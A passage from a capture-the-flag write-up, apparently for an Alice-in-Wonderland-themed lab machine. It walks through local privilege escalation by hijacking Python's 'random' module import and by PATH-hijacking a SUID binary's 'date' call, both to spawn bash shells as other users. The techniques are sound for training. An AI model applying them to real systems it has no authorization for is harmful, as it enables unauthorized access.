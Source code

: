 ### 6. Escalate to Rabbit
- Noticed `walrus_and_the_carpenter.py` could be run as `rabbit`. Opened it:
  ```bash
  nano walrus_and_the_carpenter.py
  ```
- Saw the `import random` line. Python searches for modules in the current directory first, so I created a malicious `random.py`:
  ```bash
  nano random.py
  ```
- Added:
  ```python
  import os
  os.system("/bin/bash")
  ```
- **Explanation**: When `walrus_and_the_carpenter.py` runs as `rabbit` and imports `random`, it executes our `random.py`, spawning a shell as `rabbit`.
- Set the PATH to prioritize `/home/alice`:
  ```bash
  export PATH=/home/alice:$PATH
  ```
- Ran the script:
  ```bash
  sudo -u rabbit /home/alice/walrus_and_the_carpenter.py
  ```
- Got a shell as `rabbit`.

### 7. Explore as Rabbit
- Listed files in `/home/rabbit`:
  ```bash
  ls
  ```
- Output: `teaParty`
- Checked `teaParty` permissions:
  ```bash
  ls -la
  ```
- Output: SUID binary owned by `hatter`.
- Ran it:
  ```bash
  ./teaParty
  ```
- Output: Displayed a date command result.
- Viewed its contents:
  ```bash
  cat teaParty
  ```
- Contained:
  ```
  /bin/echo -n 'Probably by ' && date --date='next hour' -R
  ```
- **Explanation**: The SUID binary runs as `hatter` and executes `date` from `$PATH`. We can create a fake `date` to hijack execution.

### 8. Escalate to Hatter
- Added `/home/rabbit` to `$PATH`:
  ```bash
  export PATH=/home/rabbit:$PATH
  ```
- Created a fake `date`:
  ```bash
  nano date
  ```
- Added:
  ```bash
  #!/bin/bash
  /bin/bash
  ```